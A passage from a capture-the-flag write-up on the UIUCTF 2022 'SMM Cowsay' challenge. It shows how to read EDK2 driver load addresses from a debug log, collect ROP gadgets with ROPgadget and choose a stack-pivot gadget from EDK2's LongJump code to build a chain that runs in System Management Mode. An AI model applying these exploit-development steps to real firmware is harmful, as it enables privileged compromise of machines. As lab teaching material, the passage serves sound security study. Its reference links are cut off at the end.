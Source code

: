 Now we can run the challenge and take a look at `debug.log`. Among the various  
debug messages, EDK2 prints the base address and the entry point of every
driver  
it loads:

```  
$ cd handout/run; ./run.sh; cd -  
$ cat debug.log | grep 'SMM driver'  
Loading SMM driver at 0x00007FE3000 EntryPoint=0x00007FE526B CpuIo2Smm.efi  
Loading SMM driver at 0x00007FD9000 EntryPoint=0x00007FDC6E4 SmmLockBox.efi  
Loading SMM driver at 0x00007FBF000 EntryPoint=0x00007FCC159
PiSmmCpuDxeSmm.efi  
Loading SMM driver at 0x00007F99000 EntryPoint=0x00007F9C851
FvbServicesSmm.efi  
Loading SMM driver at 0x00007F83000 EntryPoint=0x00007F8BAD0 VariableSmm.efi  
Loading SMM driver at 0x00007EE7000 EntryPoint=0x00007EE99E7 SmmCowsay.efi  
Loading SMM driver at 0x00007EDF000 EntryPoint=0x00007EE2684 CpuHotplugSmm.efi  
Loading SMM driver at 0x00007EDD000 EntryPoint=0x00007EE2A1E
SmmFaultTolerantWriteDxe.efi  
```

Surely enough, the `.text` section of all these drivers will contain code we
can  
execute in SMM. What ROP gadgets do we have?  
[Let's use `ROPGadget`][gh-ropgadget] to find them, using the base addresses  
provided by the EDK2 debug log:

```bash  
cd handout/edk2_artifacts  
ROPgadget --binary CpuIo2Smm.efi  --offset 0x00007FE3000 >> ../../gadgets.txt  
ROPgadget --binary SmmLockBox.efi --offset 0x00007FD9000 >> ../../gadgets.txt  
# ... and so on ...  
```

Even though we have a lot of gadgets, we need multiple ones to build a useful  
ROP chain. After the `ret` from the first gadget, control will return back to  
`SmmCowsayHandler` if we do not somehow move the stack (RSP) to a controlled  
memory region, so the first gadget we need is one that is able to flip the
stack  
where we want.

There is [*a very nice gadget*][edk2-gadget] in EDK2 code:

```c  
// MdePkg/Library/BaseLib/X64/LongJump.nasm  
CetDone:

   mov     rbx, [rcx]  
   mov     rsp, [rcx + 8]  
   mov     rbp, [rcx + 0x10]  
   mov     rdi, [rcx + 0x18]  
   mov     rsi, [rcx + 0x20]  
   mov     r12, [rcx + 0x28]  
   mov     r13, [rcx + 0x30]  
   mov     r14, [rcx + 0x38]  
   mov     r15, [rcx + 0x40]  
// ...  
   jmp     qword [rcx + 0x48]  
```


[smm1]: #smm-cowsay-1  
[smm2]: #smm-cowsay-2  
[smm3]: #smm-cowsay-3  
[uiuctf]:                              https://ctftime.org/event/1600/  
[uiuctf-archive]:                      https://2022.uiuc.tf/challenges  
[author]:                              https://github.com/zhuyifei1999  
[uefi-spec]:                           https://uefi.org/specifications  
[man-cowsay]:                          https://manned.org/cowsay.1  
[man-pahole]:                          https://manned.org/pahole.1  
[x64-call]:                            https://docs.microsoft.com/en-
[x86-rsm]:                             https://www.felixcloutier.com/x86/rsm  
[gh-pwntools]:                         https://github.com/Gallopsled/pwntools  
[gh-edk2]:                             https://github.com/tianocore/edk2  
[gh-edk2-securityex]:                  https://github.com/jyao1/SecurityEx  
[gh-qemu]:                             https://github.com/qemu/qemu  
[edk2-SystemTable]:                    https://edk2-docs.gitbook.io/edk-ii-
